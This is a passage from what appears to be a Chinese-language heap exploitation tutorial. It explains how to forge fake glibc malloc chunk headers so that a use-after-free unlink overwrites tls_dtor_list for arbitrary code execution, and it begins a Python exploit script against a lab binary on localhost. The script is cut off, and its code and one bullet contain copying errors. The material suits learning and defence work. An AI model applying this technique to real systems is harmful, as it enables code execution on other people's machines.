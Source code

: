 ![](../pictures/useafterfree.png)  


在[这里](http://www.csyssec.org/20170104/heap-offbyone/) 可以看出，如果攻击者成功覆盖下一个chunk的size域，就可以欺骗glibc malloc来unlink chunk ‘p2_1’了，尽管这时chunk已经处于分配状态。在[同一篇文](http://www.csyssec.org/20170104/heap-offbyone/) 中，我们也知道只要攻击者能小心的构造一个假的chunk头部信息，unlink一个已经处于分配状态的大chunk会导致任意代码执行!! 攻击者按一下方式构造假的chunk头部信息：  

* fd必须指回被释放的chunk地址。从堆布局中可以发现，’p2_1’位于偏移0x410处。 因此，fd=heap_base_address(可以从信息泄露bug中获取) + 0x410.
* bk也要指回被释放的chunk地址。从堆布局中可以发现，’p2_1’位于偏移0x410处。 因此，fd=heap_base_address(可以从信息泄露bug中获取) + 0x410.
* fd_nextsize必须指向tls_dtor_list - 0x14。 ‘tls_dtor_list’属于glibc的私有匿名映射段中，它已经被随机化。因此，可以利用下面的漏洞利用代码中的暴力破解技术绕过随机化。
* bk_nextsize必须指向含有dtor_list元素的堆地址！ 在构建假的chunk 头之后，’system’ dtor_list被攻击者注入，这时，’setuid’ dtor_list被攻击者注入来替代’p2_1’的堆内存区域。从堆布局中，我们可以知道’system’ 和’setuid’ dtor_list分别位于0x428和0x618处。

得到所有这些信息之后，我们就可以写个漏洞利用程序攻击二进制文件’vuln’了。  

漏洞利用代码：  

``` python
#exp.py
#!/usr/bin/env python
import struct
import sys
import telnetlib
import time
ip = '127.0.0.1'
port = 1234
def conv(num): return struct.pack("<I
def send(data):
 global con
 con.write(data)
 return con.read_until('\n')
print "** Bruteforcing libc base address**"
libc_base_addr = 0xb756a000
```